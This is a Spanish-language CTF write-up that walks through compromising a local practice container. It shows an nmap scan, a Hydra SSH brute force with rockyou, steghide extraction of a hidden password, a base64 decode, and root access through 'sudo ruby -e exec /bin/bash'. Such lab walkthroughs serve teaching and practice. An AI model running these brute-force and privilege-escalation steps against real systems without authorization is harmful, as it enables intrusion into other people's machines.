
Desplegamos el contenedor:

```Bash
bash auto_deploy.sh
```

![[Pasted image 20250204221333.png]]

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![[Pasted image 20250204221445.png]]

Nos metemos en la web:

![[Pasted image 20250204222448.png]]

Encontramos usuario carlota.

Fuerza Bruta con **Hydra**:

```Bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![[Pasted image 20250205091518.png]]

Nos conectamos con **SSH**:

```Bash
ssh carlota@172.17.0.2
```

![[Pasted image 20250205091642.png]]


```Bash
/bin/bash -i
```

![[Pasted image 20250205092027.png]]

```Bash
ls
```

![[Pasted image 20250205092151.png]]

```Bash
cd
```

![[Pasted image 20250205092210.png]]

```Bash
ls
```

![[Pasted image 20250205092243.png]]

```Bash
cd
```

![[Pasted image 20250205092304.png]]

```Bash
ls
```

![[Pasted image 20250205092328.png]]

```Bash
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg imagen.jpg
```

![[Pasted image 20250206151843.png]]

```Bash
ls
```

![[Pasted image 20250206152402.png]]

```Bash
steghide extract --stegofile imagen.jpg
```

![[Pasted image 20250206152432.png]]

```Bash
'blank'
```

![[Pasted image 20250206152442.png]]

![[Pasted image 20250206152137.png]]

```Bash
ls
```

![[Pasted image 20250206152205.png]]

```Bash
cat secret.txt
```

![[Pasted image 20250206152229.png]]

```Bash
echo ZXNsYWNhc2FkZXBpbnlwb24= | base64 -d
```

![[Pasted image 20250206152323.png]]

```Bash
cd /home
```

![[Pasted image 20250206153209.png]]

```Bash
ls
```

![[Pasted image 20250206153221.png]]

```Bash
su oscar
```

![[Pasted image 20250206153256.png]]

```Bash
/bin/bash -i
```

![[Pasted image 20250206153340.png]]

Elevamos privilegios:

```Bash
sudo -l
```

![[Pasted image 20250206153400.png]]

```Bash
sudo ruby -e 'exec "/bin/bash"'
```

![[Pasted image 20250206153543.png]]

```Bash
whoami
```

![[Pasted image 20250206153602.png]]


